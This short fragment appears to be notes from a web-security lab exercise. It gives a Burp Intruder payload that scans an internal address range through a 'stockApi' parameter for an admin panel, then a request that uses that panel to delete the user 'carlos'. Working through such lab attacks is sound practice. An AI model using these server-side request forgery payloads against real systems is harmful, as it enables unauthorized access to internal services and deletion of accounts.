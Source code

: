 #burp intruder
stockApi=http://192.168.0.§0§:8080/admin

#delete user
http://192.168.0.111:8080/admin/delete?username%3dcarlos

